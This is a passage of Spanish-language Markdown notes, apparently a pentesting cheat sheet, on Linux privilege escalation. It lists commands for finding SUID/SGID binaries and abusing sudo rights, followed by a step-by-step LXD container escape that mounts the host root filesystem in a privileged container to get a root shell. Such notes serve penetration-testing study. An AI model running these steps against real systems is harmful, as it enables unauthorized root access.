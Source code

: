 	# SETGID ó SETUId
	find / \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null
	# SETGID y SETUID
	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
	```
### Permisos Sudo
- Mostramos los permisos y los abusamos con [GTFOBINS](https://gtfobins.github.io/#)
	```bash
	sudo  -l	
	```
### Grupos privilegiados
- Comprobaremos a los grupos a los que pertenecemos con 
	```bash
	id
	```
#### LXC / LXD
Es un contenedor similar a docker y los miembros de este grupo pueden escalar privilegios creando un contenedor de este tipo como se mostrará a continuación: 
- Descomprimimos la imagen de Alpine
	```bash
	unzip alpine.zip 
	# En principio debería estar en el sistema 
	find / -name "alpine.zip" 2>/dev/nul
	# sino podemos descargarla
	wget https://github.com/saghul/lxd-alpine-builder/archive/master.zip
	```
- Inicializamos el proceso de LXD
	```bash
	lxd init
	```
- Importamos la imagen
	```bash
	lxc image import alpine.tar.gz --alias alpine
	# podemos comprobar que existe con 
	lxc image list
	```
- Lanzar un contenedor con `security.privileged=true`
	```bash
	lxc init alpine r00t -c security.privileged=true
	```
- Montar el sistema de archivos del host 
	```bash
	 lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
	```
- Iniciar el contenedor
	```bash
	lxc start r00t
	lxc exec r00t /bin/bash
	# Si no funciona probar con 
	lxc exec r00t /bin/sh
	```
#### Docker
